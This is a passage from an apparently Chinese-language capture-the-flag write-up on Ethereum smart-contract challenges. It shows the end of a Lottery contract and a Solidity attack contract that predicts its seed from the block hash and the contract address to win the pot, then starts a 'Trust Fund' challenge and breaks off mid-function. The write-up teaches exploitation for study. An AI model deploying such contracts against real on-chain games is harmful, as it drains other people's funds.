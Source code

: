 ```
        if(guess==target)`{`
            //winner
            uint256 payout = totalPot;
            totalPot = 0;
            msg.sender.transfer(payout);
        `}`
    `}`    

`}`
```

一个很简单的随机数漏洞，直接部署攻击合约

```
contract attack `{`
    Lottery target;
    constructor() public`{`
        target=Lottery(your challenge address);
    `}`
    function pwn() payable`{`
        bytes32 entropy = block.blockhash(block.number);
        bytes32 entropy2 = keccak256(this);
        uint256 seeds = uint256(entropy^entropy2);

        target.play.value(msg.value)(seeds);
    `}`
    function () payable`{`

    `}`
`}`
```

首先在`ctf_challenge_add_authorized_sender`函数中将攻击合约注册一下，然后即可发起攻击



## 0x7.Trust Fund

```
contract TrustFund is CtfFramework`{`

    using SafeMath for uint256;

    uint256 public allowancePerYear;
    uint256 public startDate;
    uint256 public numberOfWithdrawls;
    bool public withdrewThisYear;
    address public custodian;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
    `{`
        custodian = msg.sender;
        allowancePerYear = msg.value.div(10);        
        startDate = now;
    `}`

    function checkIfYearHasPassed() internal`{`
        if (now&gt;=startDate + numberOfWithdrawls * 365 days)`{`
            withdrewThisYear = false;
        `}` 
    `}`

    function withdraw() external ctf`{`
        require(allowancePerYear &gt; 0, "No Allowances Allowed");
        checkIfYearHasPassed();
```